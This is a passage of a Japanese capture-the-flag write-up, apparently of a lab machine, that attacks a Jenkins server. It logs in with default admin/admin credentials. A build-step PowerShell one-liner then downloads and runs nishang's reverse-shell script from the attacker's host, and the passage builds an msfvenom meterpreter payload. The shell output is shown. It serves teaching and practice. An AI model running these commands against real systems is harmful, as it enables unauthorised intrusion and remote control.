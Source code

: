 8080 番で Jenkins が動いていました

![スクリーンショット 2020-05-02 19.42.40.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/1eb983a0-cb4b-70ad-7768-f4178db394c7.png)

適当に admin/admin を入力すれば通りました

## Invoke-PowerShellTcp.ps1を使ってshellをとる

有名な nishang のスクリプトを使って shell をとります
https://github.com/samratashok ishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

Jenkins は CI/CD のツールです。config 内で build の時に実行するスクリプトを指定できるので以下のコマンドを指定しておきます。

```powershell:
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.66.152:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.66.152 -Port 4242
```

1. `http://10.10.66.152:8000/Invoke-PowerShellTcp.ps1`をダウンロード
2. Invoke-PowerShellTcp を実行（10.10.66.152:4242 に接続）

ということをしています。

①用に `Invoke-PowerShellTcp.ps1` を DL して `python -m SimpleHTTPServer` を立てておきます

```:shell1
root@kali:~# wget https://github.com/samratashok ishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
root@kali:~# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

②用に nc で待ち構えておきます。

```:shell2
root@kali:~# nc -lnvp 4242
listening on [any] 4242 ...                                                                                                                                                    

```
build を Jenkins 側で実行するとうまく shell が取れました


```:shell2
connect to [10.10.66.152] from (UNKNOWN) [10.10.143.57] 49207
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\Program Files (x86)\Jenkins\workspace\project>
```

これで user.txt が取れます。

## msfvenomでmeterpreterにつなぎ直す
meterpreter に接続し直したいので、msfvenom を使います

```
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp -a x86 LHOST=10.10.66.152 LPORT=1111 -f exe -o sheshe.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: sheshe.exe
root@kali:~# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```
